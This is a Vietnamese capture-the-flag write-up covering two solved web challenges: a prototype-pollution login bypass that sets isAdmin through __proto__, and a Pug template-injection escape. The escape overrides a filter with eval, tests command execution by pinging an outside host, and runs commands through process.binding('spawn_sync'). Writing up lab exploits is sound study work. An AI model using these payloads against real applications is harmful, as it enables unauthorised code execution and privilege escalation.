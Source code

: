 ```yaml
---
title: "W1 Playground Writeup"
date: 2024-02-28 00:00:00 +0800
categories: [CTF Writeup]
tags: [Prototype Pollution, SSTI, API testing]
---
```


## Bài 1: easy login

![image](https://i.imgur.com/paDR37b.png)

Phân tích qua code thì chúng ta có 2 endpoint cần để tâm là "/login" và "/admin"

![image](https://i.imgur.com/ljSahfY.png)

![image](https://i.imgur.com/mr7eats.png)

Chức năng login bắt chúng ta post data lên và server sẽ trả lại mã jwtkey để chúng ta đăng nhập
Chức năng admin kiểm tra xem chúng ta có phải admin không qua `isAdmin=true` sau khi phân tích jwtkey
Sau khi phân tích bài này dính lỗi Prototype Pollution bằng cách thêm `logindata["__proto__"][isAdmin]=true` vào thì prototype của `logindata` sẽ có thuộc tính `isAdmin=true` từ đó logindata sẽ kế thừa thuộc tính đó
Payload

![image](https://i.imgur.com/t62zoI3.png)

Có jwtkey rồi thì vào admin để lấy flag thôi

![image](https://i.imgur.com/NdpGVoS.png)

**Flag : W1{REDACTED}**


## Bài 2: render4free

![image](https://i.imgur.com/KTMygHL.png)

Phân tích qua code thì web này đang sử dụng Pug template engine để in ra các ký tự chúng ta gõ vào
Sau khi phân tích code thì chúng ta có thể rút ra web đang dính lỗi SSTI nhưng có 1 function này đang chặn chúng ta khai thác SSTI

![image](https://i.imgur.com/SliIvxB.png)

Sau khi đọc pug document thì chúng ta có thể sử dụng "-" để viết code js

![image](https://i.imgur.com/5mAiiby.png)

Bây giờ chúng ta có thể dùng "-" để viết code js thì chúng ta viết gì ? Đó chính là ghi đè lại function filter ký tự của chúng ta

```- global.replace_bad_char = str_to_replace => str_to_replace```
Tiếp tục ghi đè lại function trên để chúng ta có thể thực hiện lệnh eval

```- global.replace_bad_char = str_to_replace => eval(str_to_replace)```
Sau khi ghi đè được rồi thì viết vào để thử thực hiện RCE nào
Payload ```require('child_process').exec('ping hacked.sv')```
![image](https://i.imgur.com/ACbksnM.png)
Làm gì dễ thế anh Shin24 (author bài này) đã set type của nodejs là module tức chúng ta không thể require mà phải sử dụng import
Nhưng mà code đã chỉnh Promise.prototype.then đã thành 1 hàm trả về null

![image](https://i.imgur.com/2wwyD2a.png)

Oat gì dark vậy, lúc này chúng ta sử dụng process.binding để import các modules của nodejs
```js
  process.binding('spawn_sync').spawn({ 
    file: 'ls',
    args: [''],
    stdio: [
        { type: 'pipe', readable: true, writable: false },
        { type: 'pipe', readable: false, writable: true },
        { type: 'pipe', readable: false, writable: true }
  ]}).output.toString()
  ```
![image](https://i.imgur.com/zswZKe6.png)

Ngon vậy là có thể thực hiện lệnh ls
Để ý ở file Docker author đã tạo ra 1 file /read_flag để đọc flag vậy chúng ta thực thi file read_flag để nhận flag

![image](https://i.imgur.com/5EUqBt7.png)

Payload:
 ```js
  process.binding('spawn_sync').spawn({ 
    file: '/read_flag',
    args: [''],
    stdio: [
        { type: 'pipe', readable: true, writable: false },
        { type: 'pipe', readable: false, writable: true },
        { type: 'pipe', readable: false, writable: true }
  ]}).output.toString()
  ```

  ![image](https://i.imgur.com/dKfBXot.png)


  **Flag: W1{REDACTED}**



## Bài 3: pwncloud

  ![image](https://i.imgur.com/67TEXUF.png)










